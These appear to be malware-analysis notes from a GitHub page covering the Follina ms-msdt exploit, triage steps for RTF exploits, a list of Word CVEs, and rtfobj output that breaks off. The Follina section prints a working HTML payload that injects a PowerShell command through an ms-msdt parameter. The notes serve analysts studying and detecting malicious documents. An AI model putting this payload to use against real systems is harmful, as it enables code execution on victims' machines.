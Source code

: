 # MS-MSDT scheme aka Follina Exploit

A sample shared by nao_sec that abusing ms-msdt to execute code. Refer [here](https://mobile.twitter.com/nao_sec/status/1530196847679401984).

Unzipping the documents, and navigate to `maldoc-name\word\_rels\document.xml.rels` will reveal the HTML URL which will execute their payload.

![image](https://user-images.githubusercontent.com/56353946/183518431-b8201056-19c3-4286-970f-67f51c3f8d93.png)

The payload might looks something like this:

```
<!doctype html>
    <html lang="en">
<body>
    <script>
    window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Start-Process('cmd'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>
</body>
</html>
```

# RTF Exploit

RTF often comes with exploits targetting Microsoft Word vulnerabilities. Always look for embedded objects and anomalous content in the RTF.

Be prepared to locate, extract and analyze shellcode.
- Emulate using scdbg OR
- Execute using jmp2it OR
- Convert to executable and debug the executable using x32dbg
   - Find the start offset of the shellcode
- Behavioral analysis

RTF exploit list:
 - CVE-2018-8570 
 - CVE-2018-0802 
 - CVE-2017-11882 
 - CVE-2017-0199
 - CVE-2015-1641 
 - CVE-2014-1761 
 - CVE-2012-0158

## rtfobj

Use **rtfobj** to inspect and extract embedded objects from RTF files.

    remnux@remnux:~/Desktop$ rtfobj malicious.rtf
    rtfobj 0.55 on Python 3.6.9 - http://decalage.info/python/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    